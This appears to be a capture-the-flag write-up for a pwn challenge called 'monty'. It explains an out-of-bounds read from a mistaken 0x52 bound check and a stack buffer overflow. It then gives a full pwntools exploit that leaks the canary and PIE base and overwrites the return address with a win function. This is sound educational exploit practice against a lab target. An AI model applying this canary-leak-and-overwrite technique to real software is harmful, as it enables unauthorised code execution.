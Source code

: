 We have an Out-Of-Bound read because the deck size is 52 while it checks to make sure the index we provide is within 0x52 (82 in decimal). Additionally, there is a BOF and win function inside.

```python
└─$ checksec --file=monty 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   82 Symbols        No    0               2               monty
```

PIE and stack canary is enabled. With the 2 leaks that we can get, its clear that we should leak the canary and elf address. After looking around in gdb, we have determined that the canary is located at index 55 and we can get an elf leak at index 57.

### Exploit Script

{% highlight python %}
#!/usr/bin/python
from pwn import *
import warnings

warnings.filterwarnings("ignore",category=BytesWarning)

exe = context.binary = ELF('./monty')

host = "chall.lac.tf"
port = 31132

gdb_script = '''

'''

#p = exe.process()
p = remote(host,port)
#p = gdb.debug('./', gdbscript = gdb_script)

canary_leak_offset = 55
elf_leak_offset = 57

p.sendlineafter(b"peek? ", str(canary_leak_offset))
p.recvuntil(b"Peek 1: ")
canary = int(p.recvline().strip().decode())
log.info(f"Canary leak : {hex(canary)}")

p.sendlineafter(b"peek? ", str(elf_leak_offset))
p.recvuntil(b"Peek 2: ")
elf_leak = int(p.recvline().strip().decode())
elf_leak = elf_leak - (0x0055555555567E - 0x00555555554000)
log.info(f"Elf leak : {hex(elf_leak)}")
exe.address = elf_leak
win = exe.sym["win"]
log.info(f"Win : {hex(win)}")

payload = b"A"*24
payload += p64(canary)*2
payload += p64(win)

p.sendlineafter(b"lady! ", "1")
p.sendlineafter(b"Name: ", payload)

p.interactive()
{% endhighlight %}
